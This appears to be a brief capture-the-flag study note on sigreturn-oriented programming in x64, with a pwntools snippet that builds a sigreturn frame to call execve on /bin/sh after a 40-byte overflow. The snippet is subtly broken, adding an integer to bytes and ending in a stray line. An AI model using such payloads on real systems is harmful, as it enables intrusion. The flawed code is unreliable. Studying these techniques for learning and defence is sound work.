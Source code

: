 In x64 syscall, there is an extremely powerful syscall at $rax = 15 -
sigreturn. This syscall allows us to set *all* the registers at once, useful
when lacking gadgets to do a proper syscall execve.

You should be able to find a gadget that allows you to set $rax = 15 (0xf).

```python
srop = SigreturnFrame()
srop.rip = rop.syscall.address
srop.rax = 59
srop.rdi = 0x404040 # address of /bin/sh
srop.rsi = 0
# etc
payload = b'A'*40 + 0x404020 + bytes(srop) # 0x404020 is your srop gadget
@end
```

Some references mention the need to leak your stack address so you can set rsp
and rbp properly - so far, it doesn't seem to be an issue.

You can view the sigcontext struct here:

<https://elixir.bootlin.com/linux/v6.10/source/arch/x86/include/uapi/asm/sigcontext.h#L325>

<https://github.com/nushosilayer8/pwn/blob/master/srop/README.md>
